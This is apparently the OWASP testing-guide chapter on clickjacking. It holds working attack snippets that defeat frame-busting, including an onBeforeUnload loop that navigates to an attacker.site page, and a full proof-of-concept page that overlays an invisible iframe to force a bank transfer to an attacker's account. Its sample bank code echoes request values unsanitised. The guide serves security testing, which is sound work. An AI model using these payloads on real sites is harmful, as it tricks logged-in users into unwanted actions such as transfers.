

# Testing for Clickjacking

|ID          |
|------------|
|WSTG-CLNT-09|

## Summary

Clickjacking, a subset of UI redressing, is a malicious technique whereby a web user is deceived into interacting (in most cases by clicking) with something other than what the user believes they are interacting with. This type of attack, either alone or in conjunction with other attacks, could potentially send unauthorized commands or reveal confidential information while the victim is interacting with seemingly-harmless web pages. The term clickjacking was coined by Jeremiah Grossman and Robert Hansen in 2008.

A clickjacking attack uses seemingly-harmless features of HTML and JavaScript to force the victim to perform undesired actions, such as clicking an invisible button that performs an unintended operation. This is a client-side security issue that affects a variety of browsers and platforms.

To carry out this attack, an attacker creates a seemingly-harmless web page that loads the target application through the use of an inline frame (concealed with CSS code). Once this is done, an attacker may induce the victim to interact with the web page by other means (through, for example, social engineering). Like other attacks, a common prerequisite is that the victim is authenticated against the attacker’s target website.

\
*Figure 4.11.9-1: Clickjacking inline frame illustration*

The victim surfs the attacker's web page with the intention of interacting with the visible user interface, but is inadvertently performing actions on the hidden page. Using the hidden page, an attacker can deceive users into performing actions they never intended to perform through the positioning of the hidden elements in the web page.

\
*Figure 4.11.9-2: Masked inline frame illustration*

The power of this method is that the actions performed by the victim are originated from the hidden but authentic target web page. Consequently, some of the anti-CSRF protections deployed by the developers to protect the web page from CSRF attacks could be bypassed.

## Test Objectives

- Understand security measures in place.
- Assess how strict the security measures are and if they are bypassable.

## How to Test

As mentioned above, this type of attack is often designed to allow an attacker to induce users’ actions on the target site, even if anti-CSRF tokens are being used. Testing should be conducted to determine if website pages are vulnerable to clickjacking attacks.

Testers may investigate if a target page can be loaded in an inline frame by creating a simple web page that includes a frame containing the target web page. An example of HTML code to create this testing web page is displayed in the following snippet:

```html
<html>
    <head>
        <title>Clickjack test page</title>
    </head>
    <body>
        <iframe src="http://www.target.site" width="500" height="500"></iframe>
    </body>
</html>
```

If the `http://www.target.site` page is successfully loaded into the frame, then the site is vulnerable and has no type of protection against clickjacking attacks.

### Bypass Clickjacking Protection

If the `http://www.target.site` page does not appear in the inline frame, the site probably has some form of protection against clickjacking. It’s important to note that this isn’t a guarantee that the page is totally immune to clickjacking.

Methods to protect a web page from clickjacking can be divided into a few main mechanisms. It is possible to bypass these methods in some circumstances by employing specific workarounds. For further OWASP resources on clickjacking defense, see the [OWASP Clickjacking Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html).

#### Client-side Protection: Frame Busting

The most common client-side method, that has been developed to protect a web page from clickjacking, is called Frame Busting and it consists of a script in each page that should not be framed. The aim of this technique is to prevent a site from functioning when it is loaded inside a frame.

The structure of frame busting code typically consists of a "conditional statement" and a "counter-action" statement. For this type of protection, there are some work arounds that fall under the name of "Bust frame busting". Some of this techniques are browser-specific while others work across browsers.

##### Mobile Website Version

Mobile versions of the website are usually smaller and faster than the desktop ones, and they have to be less complex than the main application. Mobile variants have often less protection since there is the wrong assumption that an attacker could not attack an application by the smart phone. This is fundamentally wrong, because an attacker can fake the real origin given by a web browser, such that a non-mobile victim may be able to visit an application made for mobile users. From this assumption follows that in some cases it is not necessary to use techniques to evade frame busting when there are unprotected alternatives, which allow the use of same attack vectors.

##### Double Framing

Some frame busting techniques try to break frame by assigning a value to the `parent.location` attribute in the "counter-action" statement.

Such actions are, for example:

- `self.parent.location` = `document.location`
- `parent.location.href` = `self.location`
- `parent.location` = `self.location`

This method works well until the target page is framed by a single page. However, if the attacker encloses the target web page in one frame which is nested in another one (a double frame), then trying to access to `parent.location` becomes a security violation in all popular browsers, due to the descendant frame navigation policy. This security violation disables the counter-action navigation.

Target site frame busting code (`example.org`):

```javascript
if(top.location!=self.locaton) {
    parent.location = self.location;
}
```

Attacker’s top frame (`fictitious2.html`):

```html
<iframe src="fictitious.html">
```

Attacker’s fictitious sub-frame (`fictitious.html`):

```html
<iframe src="http://example.org">
```

##### Disabling JavaScript

Since these type of client-side protections relies on JavaScript frame busting code, if the victim has JavaScript disabled or it is possible for an attacker to disable JavaScript code, the web page will not have any protection mechanism against clickjacking.

There are three deactivation techniques that can be used with frames:

- Restricted frames with Internet Explorer: Starting from Internet Explorer 6, a frame can have the "security" attribute that, if it is set to the value "restricted", ensures that JavaScript code, ActiveX controls, and re-directs to other sites do not work in the frame.

Example:

```html
<iframe src="http://example.org" security="restricted"></iframe>
```

- Sandbox attribute: with HTML5 there is a new attribute called "sandbox". It enables a set of restrictions on content loaded into the iframe. At this moment this attribute is only compatible with Chrome and Safari.

Example:

```html
<iframe src="http://example.org" sandbox></iframe>
```

- Design mode: Paul Stone showed a security issue concerning the "designMode" that can be turned on in the framing page (via document.designMode), disabling JavaScript in top and sub-frame. The design mode is currently implemented in Firefox and IE8.

##### OnBeforeUnload Event

The `onBeforeUnload` event could be used to evade frame busting code. This event is called when the frame busting code wants to destroy the iframe by loading the URL in the whole web page and not only in the iframe. The handler function returns a string that is prompted to the user asking confirm if he wants to leave the page. When this string is displayed to the user is likely to cancel the navigation, defeating target's frame busting attempt.

The attacker can use this attack by registering an unload event on the top page using the following example code:

```html
<h1>www.fictitious.site</h1>
<script>
    window.onbeforeunload = function()
    {
        return " Do you want to leave fictitious.site?";
    }
</script>
<iframe src="http://example.org">
```

The previous technique requires the user interaction but, the same result, can be achieved without prompting the user. To do this the attacker have to automatically cancel the incoming navigation request in an onBeforeUnload event handler by repeatedly submitting (for example every millisecond) a navigation request to a web page that responds with a "HTTP/1.1 204 No Content" header.

Since with this response the browser will do nothing, the resulting of this operation is the flushing of the request pipeline, rendering the original frame busting attempt futile.

Following an example code:

204 page:

```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```

Attacker's page:

```html
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://example.org">
```

##### XSS Filter

Starting from Google Chrome 4.0 and from IE8 there were introduced XSS filters to protect users from reflected XSS attacks. Nava and Lindsay have observed that these kind of filters can be used to deactivate frame busting code by faking it as malicious code.

- **IE8 XSS filter**: this filter has visibility into all parameters of each request and response flowing through the web browser and it compares them to a set of regular expressions in order to look for reflected XSS attempts. When the filter identifies a possible XSS attacks; it disables all inline scripts within the page, including frame busting scripts (the same thing could be done with external scripts). For this reason an attacker could induce a false positive by inserting the beginning of the frame busting script into a request's parameters.

Example: Target web page frame busting code:

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Attacker code:

```html
<iframe src="http://example.org/?param=<script>if">
```

- **Chrome 4.0 XSSAuditor filter**: It has a little different behaviour compared to IE8 XSS filter, in fact with this filter an attacker could deactivate a "script" by passing its code in a request parameter. This enables the framing page to specifically target a single snippet containing the frame busting code, leaving all the other codes intact.

Example: Target web page frame busting code:

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Attacker code:

```html
<iframe src="http://example.org/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D">
```

##### Redefining Location

For several browser the "document.location" variable is an immutable attribute. However, for some version of Internet Explorer and Safari, it is possible to redefine this attribute. This fact can be exploited to evade frame busting code.

- **Redefining location in IE7 and IE8**: it is possible to redefine "location" as it is illustrated in the following example. By defining "location" as a variable, any code that tries to read or to navigate by assigning "top.location" will fail due to a security violation and so the frame busting code is suspended.

Example:

```html
<script>
    var location = "xyz";
</script>
<iframe src="http://example.org"></iframe>
```

- **Redefining location in Safari 4.0.4**: To bust frame busting code with "top.location" it is possible to bind "location" to a function via defineSetter (through window), so that an attempt to read or navigate to the "top.location" will fail.

Example:

```html
<script>
    window.defineSetter("location" , function(){});
</script>
<iframe src="http://example.org"></iframe>
```

#### Server-side Protection: X-Frame-Options

An alternative approach to client-side frame busting code was implemented by Microsoft and it consists of an header based defense. This new "X-FRAME-OPTIONS" header is sent from the server on HTTP responses and is used to mark web pages that shouldn't be framed. This header can take the values DENY, SAMEORIGIN, ALLOW-FROM origin, or non-standard ALLOWALL. Recommended value is DENY.

The "X-FRAME-OPTIONS" is a very good solution, and was adopted by major browser, but also for this technique there are some limitations that could lead in any case to exploit the clickjacking vulnerability.

##### Browser Compatibility

Since the "X-FRAME-OPTIONS" was introduced in 2009, this header is not compatible with old browser. So every user that doesn't have an updated browser could be victim of clickjacking attack.

|Browser            | Lowest version  |
|-------------------|-----------------|
| Internet Explorer | 8.0            |
| Firefox (Gecko)   | 3.6.9 (1.9.2.9) |
| Opera             | 10.50          |
| Safari            | 4.0             |
| Chrome            | 4.1.249.1042    |

##### Proxies

Web proxies are known for adding and stripping headers. In the case in which a web proxy strips the "X-FRAME-OPTIONS" header then the site loses its framing protection.

##### Mobile Website Version

Also in this case, since the `X-FRAME-OPTIONS` has to be implemented in every page of the website, the developers may have not protected the mobile version of the website.

### Create a Proof of Concept

Once we have discovered that the site we are testing is vulnerable to clickjacking attack, we can proceed with the development of a `proof of concept` (PoC) to demonstrate the vulnerability. It is important to note that, as mentioned previously, these attacks can be used in conjunction with other forms of attacks (for example CSRF attacks) and could lead to overcome anti-CSRF tokens. In this regard we can imagine that, for example, the `example.org` website allows to authenticated and authorized users to make a transfer of money to another account.

Suppose that to execute the transfer the developers have planned three steps. In the first step the user fill a form with the destination account and the amount. In the second step, whenever the user submits the form, is presented a summary page asking the user confirmation (like the one presented in the following picture).

\
*Figure 4.11.9-3: Clickjacking Example Step 2*

Following a snippet of the code for the step 2:

```html
//generate random anti CSRF token
$csrfToken = md5(uniqid(rand(), TRUE));

//set the token as in the session data
$_SESSION['antiCsrf'] = $csrfToken;

//Transfer form with the hidden field
$form = '
<form name="transferForm" action="confirm.php" method="POST">
        <div class="box">
        <h1>BANK XYZ - Confirm Transfer</h1>
        <p>
        Do You want to confirm a transfer of <b>'. $_REQUEST['amount'] .' &euro;</b> to account: <b>'. $_REQUEST['account'] .'</b> ?
        </p>
        <label>
            <input type="hidden" name="amount" value="' . $_REQUEST['amount'] . '" />
            <input type="hidden" name="account" value="' . $_REQUEST['account'] . '" />
            <input type="hidden" name="antiCsrf" value="' . $csrfToken . '" />
            <input type="submit" class="button" value="Transfer Money" />
        </label>

        </div>
</form>';
```

In the last step are planned security controls and then, if all is ok, the transfer is done. In the following listing a snippet of code of the last step is presented:

> Note: in this example, for simplicity, there is no input sanitization, but it has no relevance to block this type of attack

```javascript
if( (!empty($_SESSION['antiCsrf'])) && (!empty($_POST['antiCsrf'])) )
{
    // input logic and sanization checks

    // check the anti-CSRF token
    if(($_SESSION['antiCsrf'] == $_POST['antiCsrf']) {
        echo '<p> '. $_POST['amount'] .' &euro; successfully transferred to account: '. $_POST['account'] .' </p>';
    }
} else {
    echo '<p>Transfer KO</p>';
}
```

As you can see the code is protected from CSRF attack both with a random token generated in the second step and accepting only variable passed via POST method. In this situation an attacker could forge a CSRF + Clickjacking attack to evade anti-CSRF protection and force a victim to do a money transfer without her consent.

The target page for the attack is the second step of the money transfer procedure. Since the developers put the security controls only in the last step, thinking that this is secure enough, the attacker could pass the account and amount parameters via GET method.

> Note: there is an advanced clickjacking attack that permits to force users to fill a form, so also in the case in which is required to fill a form, the attack is feasible

The attacker's page may look like a simple and harmless web page like the one presented below:

\
*Figure 4.11.9-4: Clickjacking Example Malicious Page 1*

But playing with the CSS opacity value we can see what is hidden under the seemingly innocuous web page.

\
*Figure 4.11.9-5: Clickjacking Example Malicious Page 2*

The clickjacking code to create this page is presented below:

```html
<html>
    <head>
        <title>Trusted web page</title>

        <style type="text/css"><!--
            *{
                margin:0;
                padding:0;
            }
            body {  
                background:#ffffff;
            }
            .button
            {
                padding:5px;
                background:#6699CC;
                left:275px;
                width:120px;
                border: 1px solid #336699;
            }
            #content {
                width: 500px;
                height: 500px;
                margin-top: 150px ;
                margin-left: 500px;
            }
            #clickjacking
            {
                position: absolute;
                left: 172px;
                top: 60px;
                filter: alpha(opacity=0);
                opacity:0.0
            }
        //--></style>

    </head>
    <body>
        <div id="content">
            <h1>www.owasp.com</h1>
            <form action="http://www.owasp.com">
                <input type="submit" class="button" value="Click and go!">
            </form>
        </div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
    </body>
</html>
```

With the help of CSS (note the `#clickjacking` block) we can mask and suitably position the iframe in such a way as to match the buttons. If the victim click on the button "Click and go!" the form is submitted and the transfer is completed.

\
*Figure 4.11.9-6: Clickjacking Example Malicious Page 3*

The example presented uses only basic clickjacking technique, but with advanced technique is possible to force user filling form with values defined by the attacker.

## References

- [OWASP Clickjacking](https://owasp.org/www-community/attacks/Clickjacking)
- [Wikipedia Clickjacking](https://en.wikipedia.org/wiki/Clickjacking)
- [Gustav Rydstedt, Elie Bursztein, Dan Boneh, and Collin Jackson: "Busting Frame Busting: a Study of Clickjacking Vulnerabilities on Popular Sites"](https://seclab.stanford.edu/websec/framebusting/framebust.pdf)
